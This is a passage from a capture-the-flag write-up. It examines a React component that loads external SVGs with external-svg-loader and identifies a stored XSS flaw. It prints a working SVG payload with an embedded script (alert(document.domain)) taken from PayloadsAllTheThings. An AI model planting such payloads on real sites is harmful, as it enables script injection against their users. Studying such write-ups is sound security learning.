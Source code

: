 ```js
            >
                <div className="flex justify-center w-full h-[64px]">
                    <svg data-src={img} {...svgProps} />
                </div>
                <div className="text-lg">{name}</div>
            </div>
            <Tooltip id="frog-tooltip" />
        </>
    );
});

Frog.displayName = "Frog";

export default Frog;
```

As you can see, it's using a library called "[external-svg-loader](https://www.npmjs.com/package/external-svg-loader)", which is a SVG Loader. When SVGs from an external source, they can be rendered with `<img>` tags.

Hmm... I can smell some **stored/persistence XSS (Cross-Site Scripting) via SVG**!

## Exploitation

**According to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-svg), we can use the following payloads:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2023/images/Pasted%20image%2020230731152053.png)

**Let's use the first one:**
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```
